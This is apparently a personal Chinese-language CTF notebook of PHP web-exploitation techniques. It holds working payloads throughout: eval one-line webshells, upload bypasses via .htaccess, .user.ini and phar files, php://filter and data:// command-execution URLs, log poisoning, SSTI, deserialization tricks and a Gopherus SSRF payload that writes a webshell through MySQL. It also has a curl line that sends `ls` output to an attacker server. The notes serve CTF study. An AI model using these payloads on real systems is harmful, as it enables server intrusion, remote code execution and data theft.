

#### PHP 绕过普通正则表达式的基本替代符

- ${IFS} 和 %09 用于替换空格。如果{}被过滤，还可以用 $IFS$9 来进行空格绕过，$9 会被识别为空字符

- $@ 和 %27%27 替代空字符串

- 正则多行绕过，使用 `%0Aflag` (`%0A` 是换行符) 绕过 `preg('/^(.*)flag(.*)$/'', $_GET['aaa'])` (因为该正则表达式不会匹配换行符，若要匹配换行符，应改为 `preg_replace('/^(.*)level(.*)$/s', $_GET['aaa'])`)  。注意，在文本编辑器中对 `\n` 进行 URL 编码会得到错误答案 `%5Cn` (只是将 \ 和 n 两个字符编码的结果)，文本编辑器中应该将回车符 (按 Enter) 编码。
  - HTTP GET 方法的 `#` 必须被编码为 %23 再发送，因为 `#` 这部分通常由浏览器处理，不会发送到服务器

- 如果 ; 被过滤，可以用 ?> 代替

- 当 system('ls'); 被绕过时，可以用 passthru("ls"); 代替。再提供一种思路，除了用 system 外，还可以直接 show_source('flag.php')、highlight_file('flag.txt')、file_get_contents('flag.txt')

- `printf('a')` 用于替代 `echo('a')` ; ```printf(`ls`)``` 用于替代 `system('ls')`

- Linux 命令绕过

  当 `cat` 被绕过，用 `tac` 替代【还有 more、less、head、tail、nl、sed、sort、uniq、rev 等】

  `ls` 可用 `dir`、`l's'`、`l\s` 替代（如果遇到其他命令被过滤，也可以像这样用 `'` 或 `\` 来绕过）【 `cat` 用 `c\at` 替代，而不是 `ca\t` ，因为 `\t` 是 `tab` 的转义字符。也可以使用 `c''at`、`c""at` 绕过】

  用 `+` 代替空格

  写入文件的命令  `ls > 1.txt`  用  `ls | tee 1.txt`  替代。其中 `>` 是覆盖写入，`tee` 是追加写入

- 如果 127.0.0.1 被过滤，可以使用 sudo.cc 替代。127.0.0.1 还可以写成 127.1    。http://0.0.0.0 可以写成 http://0

#### 文件漏洞

- 在做题的时候尽量多试几个题目的提示后缀​（如 index.php、source.php）

##### 上传
- 拿到 webshell

- 需要注意下，有时候后端是通过 HTTP Headers 的 content-type 来判断文件类型的，改了 content-type 即可绕过。（在 Brup 中，只用改 ------WebKit 下方的 content-type）遇到过一道题，上传类型必须用 image/jpeg，用 jpg 和 png 都不行（具体看题目怎么绕过的，实测 jpeg 最通用）。

- 如果看不懂前端验证，可以改成图片格式后用 Burp 传上去，再用 Reapter 将文件后缀改为 PHP 传上去

- 如果 [] 被过滤了，可以用 {} 替代？？
- flag 不仅可以藏在文件中，还可以藏在环境变量中，在终端输入 `env` 查看环境变量

###### test.php

- 注意，一句话木马如果发送 POST 方法，payload 的键是 POST 的参数（如下面例一中的 `a`，如 payload: `a=system('ls');`。如果使用蚁剑连接，密码也是 `a`）

- 有的题需要修改 Content-Type 为 image/jpg 绕过，如果不行，则改成 **image/jpeg**
- 如果服务器开放了 PUT 方法，还可以使用  `curl -X PUT -d '<?php eval(@$_POST['a']); ?>' http://x/b.php` 注入 `b.php` 文件

1.编辑 PHP 文件内容:

```php
<?php eval(@$_POST['a']); ?>
```
或者，用这段代码的缩减版

```php
<?= eval($_POST['a']);?>
```

2.将该文件上传到服务器(连接地址就是该文件路径，密码是上面输入的'a')

3.使用中国蚁剑连接该文件即可

(如果不成功，考虑绕过，试试 test.phtml 方法)【注意，有时候后端检测了文件中的内容，有 <? 就上传不了，可以考虑下面的方法 】

###### test.phtml

```html
<script language='php'>@eval($_POST['a']);</script>
```
###### .htaccess 防止绕过 php

- 该方法旨在指定图片文件为可执行的 php 文件

如果服务端禁止上传 php，可以将 php 改为图片格式 (如 png) 欺骗服务器，再使用 .htaccess 将 png 指定为 php 文件执行。(需要注意下，传图片需要确保 HTTP Headers 的 content-type 为 image/jpeg，目前知道 .htaccess 支持 Nginx 和 Apache)

.htaccess 文件内容

```c
<FilesMatch "a.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后访问上传的 php 文件（a.png）即可

 ###### 更进一步的 .user.ini 绕过

- 该方法旨在向已有的 php 文件注入攻击代码

首先上传 .user.ini 文件（配合 Burp 的 Reapter，把 Content-Type: application/octet-stream 修改为 Content-Type: image/jpg）

GIF89a 是图片的文件头，用于绕过服务端判断

原理：

1. .user.ini 文件：在 PHP 5.3.0 版本以后，引入了一个新的特性，用户可以在每个目录下面放置一个名为 ".user.ini" 的文件，这个文件中可以包含一些 PHP 的配置项，这些配置项会影响到当前目录以及子目录中的 PHP 执行环境。这就为我们提供了一个可能的攻击点，如果我们能够上传一个 ".user.ini" 文件，并在其中设置一些特定的配置项，那么我们就可能对服务器的 PHP 执行环境进行修改。
2. auto_prepend_file 配置项：这是 PHP 的一个配置项，它的作用是在 PHP 解析器处理每个 PHP 文件之前，都会先处理这个配置项指定的文件。也就是说，如果我们在 ".user.ini" 文件中设置了 auto_prepend_file，那么这个设置的文件会在所有的 PHP 文件之前被执行。
3. 在"a.jpg"文件的开头添加"GIF89a"头部，使得这个文件在视觉上表现为一张正常的 JPG 图像，但实际上包含了恶意的PHP代码。

【PS: macOS 的访达中按住 `command + shift + .` 显示隐藏文件】

.user.ini

```
GIF89a
auto_prepend_file=a.jpg
```

编辑和上传 a.jpg 文件（注意和前一步一样，Content-Type 为 image/jpg）

```php
GIF89a
<?= eval($_POST['a']);?>
```

示例上传位置为 `uploads/a.jpg`，然后用蚁剑连接 `uploads/index.php` 文件即可，密码是 `a`。

(经测试，a.jpg 必须在 .user.ini 之后上传)

###### 构造 phar

- 漏洞突破口：`include()` 或 `file_get_contents()` 。（服务端往往对我们是不可见的，可以用 `phar` 来测试找到的 GET 或 POST 参数） 

下面代码会生成一个 example.phar 的文件

```php
<?php
    $payload = '<?php eval($_POST["a"]); ?>'; //一句话木马
    $phar = new Phar("example.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->addFromString("67.php", "$payload"); //添加要压缩的文件
    // $phar->setMetadata(...); //在metadata添加内容，可参考 phar反序列化，此处用不着，故注释
    $phar->stopBuffering();
?>
```

用蚁剑连接 `http://x/?a=phar://example.phar/67.php` 即可（`67.php` 是构造 phar 时压进去的内容是 `<?php eval($_POST["a"]); ?>`）

**注意：把 `example.phar` 更名为 `example.zip` 或其他后缀仍然可行**

##### 伪协议

- 网页上显示的未必是真实源码，如果题目过滤了网页中代码没显示的字符，应该联想到网页中代码不真实。也许题目只过滤了 flag.php，并没有过滤 index.php

```
问：PHP 中为什么 include('flag.php') 不显示内容，但是 include('php://filter/convert.base64-encode/resource=flag.php') 会显示内容？

答：在 PHP 中，`include('flag.php')` 语句会执行 `flag.php` 文件中的 PHP 代码。如果 `flag.php` 文件中没有任何输出（例如，echo 或 print 语句），那么你不会在浏览器中看到任何内容。

另一方面，`include('php://filter/convert.base64-encode/resource=flag.php')` 语句使用了 PHP 的流过滤器。`php://filter` 是 PHP 的一种特殊的流封装协议，它允许你使用 PHP 的流过滤器处理数据流。

在这种情况下，`convert.base64-encode` 过滤器被应用于 `flag.php` 文件的内容。这个过滤器会将文件内容编码为 Base64，然后输出。这意味着你会看到 `flag.php` 文件内容的 Base64 编码形式，而不是执行 PHP 代码。
```

###### convert.base64-encode

适用于 eval()、include()

```url
http://xxx/?p=php://filter/convert.base64-encode/resource=flag.php
```

- 更难的 (绕过 preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)))。**看到正则表达式绕过了 ; 就要联想到该方法，该方法的核心是 ?> 代替 ; ，表示接下来的语句是最后一条语句。

- ```
  http://xxx/?p=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
  # php语句中的;可以用?>代替(表示最后一个语句)
  
  # 通过使用 http://xxx/?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php，我们可以看到这里传递给 c 变量的值是 include $_GET[1]，而 1 变量的值为 php://filter/convert.base64-encode/resource=flag.php。
  # 此时，include 语句将会加载 php://filter/convert.base64-encode/resource=flag.php 文件，并将其转换成 base64 编码形式后输出。由于此时 c 变量的值只是一个 include 语句，因此不会触发正则表达式中的任何敏感词匹配，从而成功绕过了安全措施。
  
  
  # 在此基础上，如果数字也被绕过，改为如下：
  http://xxx/?p=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
  # 这段命令正则表达式只能检测 include$_GET[a] 部分，后面的部分是传进来的
  
  # 继续 如果 < 和 > 被过滤了，再来一个无括号版的
  http://xxx/?p=include $_GET[a];&a=php://filter/read=convert.base64-encode/resource=flag.php
  ```

注释：使用 ?file=flag.php 读取文件可能会因为权限不足而无法读取到内容。因为有些 Web 服务器，如 Apache，会对目录或文件设置访问权限。如果当前用户没有足够的权限来读取 flag.php 文件，则无法读取到该文件的内容。而使用 ?file=php://filter/convert.base64-encode/resource=flag.php 可以绕过这些权限限制，因为 PHP 脚本本身具有读取文件的权限，它可以打开并读取任何一个它拥有的文件。通过将读取到的文件内容转换成 base64 编码后输出，即使该文件是二进制或包含特殊字符，也可以正确地输出文件内容，因此能够获取 flag。

###### convert.iconv.utf8.utf16

前一种方法不行的情况下，有时候该方法行得通

```
php://filter/convert.iconv.utf8.utf16/resource=flag.php
```

###### text/plain

适用于 include()

```url
http://xxx/?p=data://text/plain,<?php system("ls");?>
```

然后，使用

```
http://xxx/?p=data://text/plain,<?php system('cat flag.php');?>
```

有时候还是被过滤了，就将 <?php system('cat flag.php');?> 转为 base64:

```
http://xxx/?p=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
# 当使用数据流协议 data:// 时，可以通过 base64 编码的方式来直接传递数据，而不需要引用外部文件
```

###### 执行 system

方法一

```url
http://xxx/?page='.system("cat ./templates/flag.php").
```
方法一不行的话，用方法二
```url
?p=system('cat flag.php | base64')
```
原因：
在某些服务器上，执行 system('cat flag.php') 命令将会返回一个空字符串，而不是预期的 flag.php 文件内容。这是因为在 shell 中，管道符 | 表示将前一个命令的输出作为后一个命令的输入。由于执行 system() 函数时，标准输出通常不被捕捉，因此无法获取 cat flag.php 的输出，并且 $a 将被设置为空字符串。
相反，system('cat flag.php | base64') 命令将会将 flag.php 文件内容进行 base64 编码，然后将编码结果作为字符串返回。由于 base64 编码只使用 ASCII 字符集，可以保证其在 PHP 脚本中的可靠性，并且可以从 $a 中获取到正确的返回值。

另外的示例：

用 || 和 < 分别绕过 Linux 命令和空格。如果题目本来要执行一个 ping 或其他命令，可以这样绕过：

```
http://xxx/?c=tac<fla%27%27g.php||
# 只有当 || 左边的内容执行失败时，才会执行右边。%27%27 代表 '' 空字符串，可以绕过正则的 flag 匹配
# 等效于 ?c=tac<fla''g.php||    , Linux 在 tac 输出时会忽略 ''
```


###### GET 方法注入字符串到文件流
将字符串 hello ctf 注入文件流 file

```url
http://xxx/?file=data://text/plain,hello ctf
```

注意：上述链接的 `,` 和 `hello` 之间不要有空格

###### POST 方法注入字符串到文件流

- php://input 实际作用是直接访问原始的请求体数据，而不是经过 PHP 解析后的表单数据。（也就是获取 html 表单的原始字符串）

适用于 file_get_contents()、include()

> POST 中，GET 方法的一个参数值是 php://input ，POST 中提交纯字符串可作为该参数的值（用于破解 PHP 读文件[如 file_get_contents]，此处可以自己构造文件内容）
>
> 如果小写 php 被绕过，可以用 Php://input
```
http"//xxx/?file=php://input
post data:<?php system("ls /"); ?>
# 此处的 POST 只传字符串(不是键值对)
```

##### PHP SSIT 漏洞

- 遇到了模版如 Smarty，很大概率是 SSIT 漏洞

###### 注入方法一

遇到一道题，ip 由 `X-Forwarded-For` 的传入值来渲染，则通过 `X-Forwarded-For` 来注入

```
X-Forwarded-For={system('cat /flag')}
```

###### 注入方法二

- 方法一的注入更简洁

POST 参数为 data:

```
data={if system('ls')}{/if}
```


###### 提交 POST

```
用户名 <!--#exec cmd="ls ../"-->
密码 123123 (输入正确密码)
```

##### 直接访问服务器目录

- 部分服务器会暴露本地路径，可以直接在 url 处构造路径访问

###### Nginx 日志文件，通过修改 User-Agent 执行 php 代码

如果 php://input 都被过滤，可以考虑此方法

有时候题目代码没有明示，但测试下来 system() 等这些函数都用不了，则可以尝试该方法

例如

```
访问 http://xxx/?file=/var/log/nginx/access.log
修改 User-Agent 的值为 Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) <?php system('ls');?>Gecko/20100101 Firefox/56.0 
# 此处会执行中间插入的代码 <?php system('ls');?> 。（可能要访问2次才会显示，结果可能返回在 html 源码中）
```

###### 文件协议

> 用于url是重定向的情况
```
http://xxx/?url=file:///var/www/html/flag.php
```

###### include 函数的特性

> 查找 ../../../../ffffllllaaaagggg 文件
```
http://xxx/source.php?file=hint.php?../../../../../ffffllllaaaagggg
```

##### ThinkPHP 注入漏洞

- ThinkphpGUI 有一个坑，该工具执行命令时并不能区分目录和文件，需要手工鉴别。

使用 https://github.com/Lotus6/ThinkphpGUI 查询漏洞（文件备份在 `/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/PHP渗透/ThinkphpGUI-1.3-SNAPSHOT.jar` ，适用 `java -jar ThinkphpGUI-1.3-SNAPSHOT.jar` 运行）

方法：

1.选择 All 后查询



2.选择有漏洞的版本，执行 shell 命令，如图



#### 绕过复杂的正则表达式（RCE 类型之一）

> 查看 flag.php 的一种冷门方法

```
http://xxx/?p=uniq${IFS}f???.php
```

> 如 preg_match("/[A-Za-z0-9]+/",$code)

##### 取反通用方法

如需执行 `eval($code);`

首先对 system 取反

```php
<?php
$a="system";
echo "~" . urlencode(~$a) . "\n";
?>
```

得到

```
~%8C%86%8C%8B%9A%92
```

再对 ls 取反

```php
<?php
$a="ls";
echo "~" . urlencode(~$a) . "\n";
?>
```

得到

```
~%93%8C
```

构造 system('ls'); 如下

```
?code=(~%8C%86%8C%8B%9A%92)(~%93%8C);
```

PS：不用深究上面的字符串为什么会被正确执行，这是 PHP 解释器的运作机制，学会该用法即可。

##### 取反执行某个函数

取反后 得到不可读的打印串，再将 url 编码
```php
<?php
$c='phpinfo';
$d=urlencode(~$c);
echo $d;
?>
# 返回：%8F%97%8F%96%91%99%90
```

访问 url

```
(~%8F%97%8F%96%91%99%90)();
```

##### 取反连接蚁剑

> 通过构建 assert（eval(_POST[1])）来使蚁剑连接

```php
<?php
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo '(~'.$b.')';
$c='(eval($_POST[1]))';
$d=urlencode(~$c);
echo '(~'.$d.')';
?>
# 得到 (~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%D6)
```
再访问 url
```
http://xxx/code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%D6);
```

#### 执行系统命令

##### system('ls');

- 由于 eval(system('ls');); 中执行的是一段 PHP 代码，所以最后要加分号

再提供一种思路，除了用 system 外，还可以直接 show_source('flag.php')

如果 system('cat flag.txt'); 不成功，可以尝试如 system('cat f*.txt');。（或者可以尝试直接在浏览器访问这个文件）

#### 部分漏洞

##### include() 漏洞

`include('source.php?/../../../../../ffffllllaaaagggg')` 如果 source.php? 这个目录并不存在，include 函数就会取执行后面的，跳转到上层目录

##### 超级全局变量(输出所有全局变量的值)

```
http://xxx/?p=GLOBALS
```

##### %00截断 (get_headers() 漏洞)

在低于7.2.29的PHP版本7.2.x，低于7.3.16的7.3.x和低于7.4.4的7.4.x中，将 `get_headers()` 与用户提供的URL一起使用时，如果URL包含零（\ 0）字符，则URL将被静默地截断。这可能会导致某些软件对 `get_headers()` 的目标做出错误的假设，并可能将某些信息发送到错误的服务器。

例如原地址 `http://node4.anna.nssctf.cn:28559/?url=http://www.ctfhub.com` 会被  `http://x/?url=http://127.0.0.1%00.ctfhub.com`  截断，而显示 `http://127.0.0.1` 的内容。

#### 弱类型(==判断) 

> 知识点

**比较符**
- ===比较两个变量的值和类型；==比较两个变量的值，不比较数据类型。
- 在php中,如果bool和"任何其他类型"比较,"任何其他类型"会转换为bool。
- 看到类似 if(intval($num)) 要联想到弱类型，通过数组绕过。（数组同时可以绕过正则表达式）
- 447.0 和 447 用 === 比较的时候不相等
##### MD5 绕过
举例（以下几个字符串可绕过弱类型 md5）
```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a

原理：
在 PHP 中，'0e' 开头的字符串会被当作科学计数法来处理，因此当两个不同的字符串的 md5 哈希值以 '0e' 开头并且后面都是数字时，这两个哈希值在 PHP 中会被当作相等。
在这个例子中，我们需要找到两个字符串，一个只包含字母，一个只包含数字，它们的 md5 哈希值相等。
这样的字符串对已经被找到了，比如 '240610708' 和 'QNKCDZO'。这两个字符串的 md5 哈希值都是 '0e462097431906509019562988736854'。
```
如果前一种方法不行，利用 PHP 的 md5() 无法处理数组的特性绕过。(sha1 也无法处理数组类型，也适用此方法)
```
http://xxx/?v1[]=1&v2[]=2
```

##### 弱类型 if 绕过

下面的代码示例结果输出 1

```php
<?php
    $a = true;
    $b = "wasdde12";
    if ($a == $b) {
        echo 1;
    }
?>
```

下面的代码示例结果输出 1

```php
<?php 
$x=5;
$y="5s";
if ($x == $y) {
    echo 1;
}
?>
```

下面的代码示例结果输出 1

```php
<?php
    echo "字符串"==0;
?>
```

解释：在 PHP 中，当你试图将一个字符串和一个数字进行比较时，PHP 会尝试将这个字符串转换为一个数字。在这种情况下，PHP 会从字符串的开始处读取，直到它找到一个不能被解析为数字的字符，然后它只会返回已经解析的部分。如果字符串的开始部分没有数字，那么它将返回 0。

在你提供的代码中，"字符串" 是一个完全由非数字字符组成的字符串，所以当 PHP 尝试将它转换为数字时，它将返回 0。因此，"字符串"==0 的结果是 true，也就是 1。

这是 PHP 的类型松散比较的一个特性。如果你想进行严格的类型比较，你应该使用 === 操作符，这样除了值要相等，类型也要相等，"字符串"===0 将返回 false。

##### if(!$_GET['id']) 绕过

某个 GET 参数例如 id 的值为 0，在 PHP 中，!$_GET['id'] 该判断是 true。要绕过该判断，使用 id=0a 即可
>”1aaaa“=="1"是成立的，因为数字和字母不可比较，只要字母前面的数字全一样就可以
>
>但是，如果是 "aaaa1"=="1" 就不成立，字母在前时，会被识别为非数值类型，返回 0

举例
```
if(!$_GET['id']) 是弱比较
if($_GET['id'] === null) 是强比较
```

##### SQL 注入的弱类型绕过

```
http://xxx/?id=2 or id =1000
# 用于绕过弱类型比较时，id 只能小于 1000 的情况

# 继续 如果 or 也被绕过，使用 ||
http://xxx/?id=2||id=1000
或者 取反
http://xxx/?id=~~1000
# 取反操作时，intval('~~1000') 会将值转为 0，所以可以绕过 if(intval($id) > 999)
```

继续上面的类型，如果连取反 ~ 也被绕过，则用以下脚本转为二进制解题

```python
def main():
    a = 1000
    print(bin(a))
    

if __name__ == '__main__':
    main()
    

# # 获取用户输入十进制数
# dec = int(input("输入数字："))
 
# print("十进制数为：", dec)
# print("转换为二进制为：", bin(dec))
# print("转换为八进制为：", oct(dec))
# print("转换为十六进制为：", hex(dec))
```

得到以下 url

```
http://xxx/?id=0b1111101000
# 0b1111101000 是 1000 的二进制
# 说明数据库会自动将二进制转为十进制？
```

#### 反序列化

- PHP 的反序列化和 Python 有很大区别。PHP 中只能根据原本模版 (class) 来改，只能改变属性值，不能修改方法 (只能修改构造方法)。PHP 的序列化更像是在前端构建和后端相匹配的数据结构。

- 反序列化也支持反序列化字符串或数组（键值对），这里举例将键值对序列化

  ```php
  <?php
      $info = array(
          "username" => true,
          "password" => true
      );
      echo urlencode(serialize($info));
  ?>
  ```

- PHP 中无法凭空产生反序列化攻击（这点和 Python 不同，PHP 的序列化不太自由），要执行反序列化攻击，服务端必然有模版（即相应的类，利用服务端中类方法的语法漏洞注入）。

- PHP 的序列化过程会产生特殊字符（如 %00），如果将序列化结果复制到在线的 base64 网站进行编码可能就会丢掉特殊字符，所以最好**直接在 PHP 中进行 base64 或其他一系列编码**。

- PHP 中**类属性只能是 字符串、数值或 bool**【不能在类中乱定义属性】，只能在类实例化后，用 -> 指向其他类型（如函数）

  原理解释：在PHP中，类属性（也称为成员变量或字段）在定义时可以设置默认值，但这些默认值只能是常量表达式，不能是（例如）函数调用的结果或者一个对象。这是因为在PHP解析代码时，它还无法执行任何动态的操作，所以只能接受静态的值作为默认值。

  然而，一旦类被实例化为对象，我们就可以动态地修改这些属性的值，包括改变它们的类型。因为在运行时，PHP有了执行动态操作的能力。（在Python中，类定义本身就是一个运行时行为，所以更灵活）

  例如：

  ```php
  class MyClass {
      public $myVar = 5;  // 可以设置为一个常量值
  }
  
  $obj = new MyClass();
  $obj->myVar = "Hello, world!";  // 可以更改为任何类型的值
  ```

  在上面的代码中，`$myVar`属性在定义时被设置为整数5，但在实例化后，我们可以将其更改为字符串。


- w00m->{a}: 表示调用 w00m 对象的 a 方法，a 是方法名的字符串

- `preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $a)` 如果 $a 是一个类实例，该方法也能触发 `__toString()` 。（不要想当然认为只有 `echo` 会触发  `__toString()` ）

- 一个 CVE 漏洞 ：当成员属性数目大于实际数目时可绕过 __wakeup 方法(CVE-2016-7124)

  举例：将实际生成的序列化字符串 `O:4:"xctf":1:{s:4:"flag";s:3:"111";}` 改为 `O:4:"xctf":2:{s:4:"flag";s:3:"111";}` 即可绕过 __wakeup()

反序列化代码示例

```php
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}

$ctfs = new ctfShowUser();
echo urlencode(serialize($ctfs));
?>

// 最后输出时最好使用 urlencode 编码，避免不合规字符串，Cookie 中的 url 编码会被 HTTP 自动解码
```

##### 反序列化绕过

###### 绕过正则匹配的 "o" 或 "c" 

将 O:4 改为 O:+4

举例

```php
if (preg_match('/[oc]:\d+:/i', $var))
```

得到的序列化字符串为

```bash
O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
```

将它改为

```bash
O:+4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
```

###### 绕过正则匹配的大写字母

例如，正则匹配为 `/"[BA]":(.*?):/s` ，类名是大写字母 A 和 B，序列化后的字符串为 `O:1:"B":1:{s:1:"a";O:1:"A":1:{s:4:"code";s:18:"eval($_POST["a"]);";}}`，我们可以利用 **PHP 对类名大小写不敏感**的特性将大写字母改为小写，如 `O:1:"b":1:{s:1:"a";O:1:"a":1:{s:4:"code";s:18:"eval($_POST["a"]);";}}`，从而绕过该正则表达式

###### 绕过特殊情况下的 `===` 判断

如 `if($this->openstack->neutron === $this->openstack->nova)` ， `this->openstack` 本身应该是一个类实例，此时只要保证 `this->openstack = ''` 或   `this->openstack = null` ，那么 `$this->openstack->neutron` 和 `$this->openstack->nova` 的值会自动反显为 `null`，从而绕过 `===`。例题 https://www.ctfer.vip/problem/335

##### PHP 魔术方法

__destruct()，类的析构函数

__wakeup()，执行unserialize()时，先会调用这个函数

__toString()，类被当成字符串时的回应方法

__invoke()，调用函数的方式调用一个对象时的回应方法

__get()，获得一个类的成员变量时调用

__set()，设置一个类的成员变量时调用

#### Gopherus 注入 RCE 漏洞

- 核心是后台可以请求 url 链接，在这里使用 Gopher 注入代码
- 已经安装在 py-ctf 的 Docker 容器中

##### 打无密码 MySQL

```bash
gopherus --exploit mysql
```

输入 username 为 root

输入 execute 为

```sql
select "<?php @eval($_POST['test']);?>" into outfile '/var/www/html/2.php';
```

得到

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4c%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%74%65%73%74%27%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

由于有不允许的字段，用 url 编码后面的内容得到

```
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%254c%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2527%2574%2565%2573%2574%2527%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2532%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501
```

通过 Brup 的 Reapter 将 这段内容注入到服务器后端请求参数的位置（无论是 GET 还是 POST，需要注入到一个参数中），即可正常使用蚁剑连接

##### 打 Redis

```bash
gopherus --exploit redis
```

根据提示输入即可，和上面的打 MySQL 差不多，其中我选的 phpshell，没有选反弹 shell，只是 PHP 注入内容输入

```php
<?php @eval($_POST['test']);?>
```

 然后通过默认生成的 shell.php 实现蚁剑连接

##### 备忘 GitHub 的示例

- MySQL：如果用户没有密码保护，你可以转储他的数据库，也可以在他的系统中放置恶意文件。

```
gopherus --exploit mysql
```

   它只询问 MySQL 用户的用户名，它会为您提供 gopher 链接。

- PostgreSQL：如果用户没有密码保护，你可以转储他的数据库，也可以将恶意文件放入他的系统。

```
gopherus --exploit postgresql
```

   它只询问 Postgres 用户的用户名和数据库名称，然后它会为您提供 gopher 链接。

- FastCGI：如果端口 9000 在没有安全保护的情况下打开，那么您可以获得 RCE。

```
gopherus --exploit fastcgi
```

   它只要求一个必须存在于受害者系统中的文件（最好是 .php 文件），顺便说一句，我们有默认文件。

- Redis：如果redis端口是开放的，那么我们可以覆盖系统中的文件，这太危险了。
  所以这里有两件事你可以得到：
  a。反向 Shell
  b. PHP外壳

```
gopherus --exploit redis
```

- Zabbix：如果端口 10050 处于打开状态，`EnableRemoteCommands = 1`那么您可以在受害系统上运行 shell 命令。

```
gopherus --exploit zabbix
```

- Memcached：它主要用于存储序列化数据，但是当涉及到对这些数据进行反序列化时，就会出现已知的漏洞，例如 PHP 反序列化问题、Python-Pickle 反序列化问题、Ruby-Marshal 反序列化问题这可能导致 RCE。
  因此，我为它们中的每一个创建了不同的脚本，还创建了一个用于转储 Memcached 内容的脚本：

```
gopherus --exploit pymemcache
gopherus --exploit rbmemcache
gopherus --exploit phpmemcache
gopherus --exploit dmpmemcache
```

- SMTP：如果端口 25 是开放的，那么我们可以访问它，我们可以作为受害者用户向任何人发送消息，所以这个工具会生成用于发送邮件的 gopher payload。

```
gopherus --exploit smtp
```


#### 反弹 shell

在攻击服务器上执行（如果使用的是公网，建议用搬瓦工服务器）

```bash
nc -nlvp 10200
```

监听 0.0.0.0 的 10200 端口

找到靶机上可以请求 url 的注入点

```
?url=https://;curl http://攻击服务器地址:4567?`ls`
# 前面的 https 是一道题中的条件，这里用了绕过 https

# 通用写法如下
?url=http://攻击服务器地址:4567?`ls`

# 经过测试，该方法每次请求，都需要重启攻击服务器上的 tcp 连接，才能在下次请求正常收到信息
```

如果输出内容被后端限制了长度，可以这样测试 flag 的路径:

```
ls
ls /f*
cat /f*
```

#### 特殊函数的漏洞

##### strcmp
> 不支持数组，遇到数组会直接返回0
```
?id[]=1
```

#### 函数或语法备忘

- 如果遇到函数不认识，可以在本地用 php 执行一下，看看效果。

##### PHP 解释器行为

###### 弱类型语言

在PHP中，当字符串被用在数学运算中时，PHP会自动将其转换为数值。

###### 自动处理变量单词间的空格

当 show_source 被正则过滤时，为什么用 show+source 代替 show_source？

在 URL 编码中，加号（+）是一个特殊字符，代表一个空格。所以，show+source 在 URL 中实际上代表 show source。

当 PHP 解析 URL 中的查询字符串（query string）时，它会将加号（+）解析为一个空格。所以，show+source 会被 PHP 解析为 show source。然后，PHP 会将这个字符串转换为一个变量名，去掉空格，所以 show source 被转换为 show_source。

##### PHP 的数组可以和键值对很像

在PHP中，数组是一个复杂的数据结构，它可以存储多种类型的数据并且可以通过键值对的方式进行访问。这是因为PHP的数组实际上是一个有序映射。映射是把键（key）和值（value）关联在一起的一种数据类型。

在PHP中，数组的键可以是整数或者字符串，值可以是任意类型。这就意味着，你可以通过键值对的方式来访问数组的元素，就像这样：

```php
$c = array(
    "foo" => "bar",
